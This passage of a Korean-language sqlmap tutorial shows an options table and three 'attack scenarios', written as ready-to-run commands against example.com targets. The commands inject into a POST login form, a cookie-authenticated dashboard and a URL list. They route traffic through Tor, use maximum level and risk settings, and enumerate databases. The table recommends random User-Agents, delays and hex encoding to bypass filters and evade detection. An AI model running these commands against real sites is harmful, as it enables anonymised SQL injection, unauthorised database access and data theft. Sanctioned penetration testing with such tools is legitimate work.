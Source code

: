 ### 옵션 상세:

| 옵션             | 설명                  | 권장값       |
| ---------------- | --------------------- | ------------ |
| `--random-agent` | 랜덤 User-Agent 사용  | 항상 사용    |
| `--delay`        | 요청 간 지연 시간(초) | 2-5초        |
| `--timeout`      | 연결 타임아웃(초)     | 20-60초      |
| `--retries`      | 실패 시 재시도 횟수   | 3-5회        |
| `--hex`          | 특수 문자 HEX 인코딩  | 필터 우회 시 |
| `--output-dir`   | 결과 저장 디렉토리    | /tmp/...     |

---

## 5. 다양한 공격 시나리오

### 시나리오 1: POST 데이터 대상 테스트

```bash
sqlmap -u "http://example.com/login.php" \
  --data="username=admin&password=123" \
  --tor --tor-type=SOCKS5 \
  --method=POST \
  --level=5 \
  --risk=3
```

### 시나리오 2: 쿠키 인증이 필요한 페이지

```bash
sqlmap -u "http://example.com/dashboard.php" \
  --cookie="PHPSESSID=1234567890abcdef; security=high" \
  --tor --tor-type=SOCKS5 \
  --batch \
  --dbs
```

### 시나리오 3: 파일 기반 대상 테스트 (여러 URL)

```bash
# urls.txt 파일 생성
echo "http://example.com/page1.php?id=1" > urls.txt
echo "http://example.com/page2.php?user=2" >> urls.txt
echo "http://example.com/search?q=test" >> urls.txt

# 명령어 실행
sqlmap -m urls.txt \
  --tor --tor-type=SOCKS5 \
  --threads=2 \
  --smart
```

---